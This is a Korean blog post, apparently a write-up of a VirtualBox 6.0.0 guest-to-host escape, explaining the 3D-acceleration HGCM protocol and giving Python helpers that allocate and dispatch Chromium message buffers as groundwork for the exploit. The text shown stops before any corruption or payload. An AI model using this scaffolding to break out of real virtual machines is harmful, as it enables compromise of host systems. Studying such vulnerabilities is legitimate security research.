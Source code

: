 ```yaml
---
title: VirtualBox 6.0.0 exploit
author: JOSEOYEON
date: 2020-04-01 23:03:27
categories: [SystemHacking, memory leak]
tags: [memory leak]
pin: true
---
```




# virtual machine(guest)을 공격해서 host Computer의 계산기 call

## 3D 가속화 

![image](https://user-images.githubusercontent.com/46625602/78110008-43ee4980-7435-11ea-85ec-a75614c07983.png)

virtual box는 3d 가속화 기능이 켜져 있어야 한다. 

3d 가속화 기능이 뭐냐면, virtualbox (guest)에서 처리하기 힘든 과부하 걸릴 만한 일을 host os에 넘겨서 처리하고 다시 가져오는 기능이다.

다시 말하면, 3d 기능은 server/client 형식으로 guestOS(virtual machine)안에서 host 컴퓨터 기능을 가져다 써서 원격 랜더링 하는 기능이다.

여기서 사용하는 프로토콜은 hgcm이라고 하는데 이건 드래그앤 드롭 기능을 사용할때도 사용되는 프로토콜이다.

다음 함수들은 hgcm 통신할 때 쓰는 함수들이다.
```
hgcm_connect
hgcm disconnect
hgcm_call(conn_id,function,params)
```


### hgcm_call(conn_id, function, params)
```
==> function:
	SHCRGL_GUEST_FN_WRITE_BUFFER // HEAP buffer alloc 
	SHCRGL_GUEST_FN_WRITE_READ_BUFFER // HEAP buffer free
```	

이 함수의 사용 예를 보면 다음 과 같다

```python
def alloc_buf(client, sz, msg='a'):
    buf,_,_,_ = hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0, sz, 0, msg]) // 여기는 버퍼에 넣는거 
    return buf

def crmsg(client, msg, bufsz=0x1000):
    ''' Allocate a buffer, write a Chromium message to it, and dispatch it. '''
    assert len(msg) <= bufsz
    buf = alloc_buf(client, bufsz, msg)
    # buf,_,_,_ = hgcm_call(client, SHCRGL_GUEST_FN_WRITE_BUFFER, [0, bufsz, 0, msg]) 
    _, res, _ = hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [buf, "A"*bufsz, 1337]) // 여기는 버퍼에서 free
    return res
```
